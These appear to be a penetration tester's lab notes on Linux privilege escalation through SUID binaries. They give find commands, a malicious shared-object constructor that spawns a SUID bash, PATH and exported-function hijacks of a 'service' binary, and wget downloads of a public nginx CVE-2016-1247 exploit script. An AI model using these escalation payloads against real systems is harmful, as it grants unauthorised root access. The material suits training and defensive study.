 #### Detection

Files with SUID set run with higher privileges.  Can be found with "s"  on permissions.

-rws-rw-r--

Search for files that have SUID set
```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
OR
```bash - target
find / -perm -u=s -type f 2>/dev/null
```

![[Pasted image 20220219141658.png]]


![[Pasted image 20220219141727.png]]

#### suid3num.py

https://gtfobins.github.io/#+suid

```bash - kali
wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
python suid3num.py
```

#### Shared Objection injection
```bash - target
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20220219142402.png]]

![[Pasted image 20221115134928.png]]

```bash - target
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

![[Pasted image 20221115134943.png]]

The idea here is to find where we have write privileges, overwrite one of these files with our malicious code.  In this example, that file is /home/user/.config/libcalc.so


libcalc.c
```c - kali
#include <stdio.h>
#include <stdlib.h>


static void inject() __attribute__((constructor));

void inject () {
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Verify the output path actually exists.  If not, make it.
Example /home/user/.config

```bash - kali
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c
```

Now just run the original bin:

```bash - kali
/usr/local/bin/suid-so
```

![[Pasted image 20221115135412.png]]

#### CVE-2016-1247 Binary Symlinks
![[3._Automated Tools#Linux Exploit Suggester]]

![[Pasted image 20220219151234.png|1000]]

See if the target has unpatched version of nginx:

```bash - target
dpkg -l | grep nginx
```

```bash - kali
wget https://raw.githubusercontent.com/xl7dev/Exploit/master/Nginx/nginxed-root.sh
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - kali
./nginxed-root.sh /var/log/nginx/error.log
```

Logs must be rotated before exploit works.

#### Environmental Variables (Example 1)
```bash - target
env
```

```bash - target
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20220219154119.png]]

/usr/local/bin/suid-env

```bash - target
strings /usr/local/bin/suid-env
```

![[Pasted image 20221115135430.png]]

We see at the bottom it is trying to start Apache by using the service binary.  We will create a malicious service binary.

```bash - target
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

```bash - target
gcc /tmp/service.c -o /tmp/service
```

```bash - target
export PATH=/tmp:$PATH
```

![[Pasted image 20221115135443.png]]

Notice now, that /tmp is first on the list when it looks for binary's.

```bash - target
/usr/local/bin/suid-env
```

#### Environmental Variables (Example 2)

```bash - target
strings /usr/local/bin/suid-env2
```

![[Pasted image 20221115135456.png]]

This one uses services located in /usr/sbin/service.  

```bash - target
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```

```bash - target
export -f /usr/sbin/service
```

![[Pasted image 20221115135509.png]]
